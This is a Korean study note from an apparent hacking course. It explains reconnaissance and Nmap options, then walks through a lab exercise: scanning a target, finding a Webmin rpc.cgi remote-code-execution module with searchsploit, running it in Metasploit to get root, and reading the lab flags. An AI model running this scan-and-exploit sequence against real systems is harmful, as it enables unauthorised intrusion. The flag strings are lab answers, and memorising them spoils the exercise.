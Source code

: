 
# 1. 그루트 해킹 시연 실습 데모

사실 찐 flag이다. 후후
flag{sam_database_elevated_access}


# 2. 일단 따라하는 모의해킹 1- RemoteWebAdm

## 개념영상 -일단 배우는 모의해킹 개념 - 정보수집

* 특정 대상의 정보를 수집해 추후 공격에 사용 될 수있는 잠재적 취약점 과 잘못된
   설정등을 파악하는 과정
* Enumeration, Reconnaissance (Recon)
* 대상의 종류에 따른 정보수집
	* 웹 - 웹 기반
	* 서버 - 포트스캐닝
	* 네트워크 - Sweep, DNS, 포트스캐닝
	* 기관 - OSINT, 인적자원, 기술자원 
* 목표: 타겟의 프로필 생성 + 공격계획 수립

포트란? 

Port - Layer 4
IP - Layer 3

포트스캐닝
* CTF, 내/외부망 등
* 포트 - 네트워크 트래픽이 엔드 포인트의 특정한(네트워크) 서비스/프로세스와
   통신하는데 사용되는 논리 단위(숫자 
   
1. 열려있는 포트확인
2. 포트를 사용중인 네트워크 서비스 확인
3. 서비스 이름과 버전정보를 기반으로 정보수집
4. 공격실행 

# Nmap (Network Mapper)

* 1997년 네트워크 문제 해결 스캐너로 개발 
* Nmap.org

* Scanme.nmap.org
	* 합법 
	* 브루트포스, Intrusive 스캔 금지 - 철컹
* 소스코드 : github.com/nmap/nmap 
	* 로우레벨(c, c++)
	* 네트워크 인터페이스 & 커널
	* RFC, 패킷 구조, 등 *

# Nmap 플래그 
-p 포트(22,80,443 | 100-200| --top-ports 100)
-iL  타겟 리스트 파일
-Pn 핑 제외 포트 스캐닝
-sV 네트워크 서비스 배너확인
-sC 기본 Nmap 정보 수집 스크립트 사용 
-oA 다양한 (xml, nmap, gnmap) 형태로 출력
-T0~ T5 속도
-n DNS Resolution 제외 
-- open  열려있는 포트만 출력 

# 포트스캐닝 종류 

* Host Discovery 
	* ICMP + 포트 80,443 확인
* TCP
	* -sS: Tcp Syn
	* -sT: TcP Connect
	* Ack, Null, Fin, X-Mas, ...: 현대 방화벽 때문에 x
* UDP
	* -sU: UDP 포트스캔
* ICMP (포트스캐닝 X)*


시작 
포트스캔 

nmap 10.10.248.136 

PORT      STATE SERVICE
22/tcp    open  ssh
10000/tcp open  snet-sensor-mgmt


서비스 배너 그래빙 (Network Service Banner Grabbing)
해당 포트 , 버전정보 , tcpDetailed파일로 만들어줘 
nmap -p 22,10000 -sV 10.10.248.136 -oA tcpDetailed 

PORT      STATE SERVICE VERSION                                      │
22/tcp    open  ssh     OpenSSH 7.6p1 Ubuntu 4ubuntu0.7 (Ubuntu Linux│
; protocol 2.0)                                                      │
10000/tcp open  http    MiniServ 1.890 (Webmin httpd)                │
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel    

exploit 검색 하는 방법 
searchsploit Webmin

많이나옴 

searchsploit Webmin 1.890 

Webmin < 1.920 - 'rpc.cgi' Remote  | linux/webapps/47330.rb   


웹페이지로 검색
searchsploit Webmin 1. -w   


msfconsole 

search Webmin 1.920 

use 0 

options 

공격대상
set rhosts 10.10.248.136

내 아이피
set lhost 10.8.170.217 
참고 내 아이피는  ip a  로 검색 후  tun 0에 적혀있는것! 

exploit

whoami
root로 나옴

find / -name "flag.txt" 

cat /root/flag.txt

GROOT{TH15_IS_0NLY_TH3_BEGINNING} 

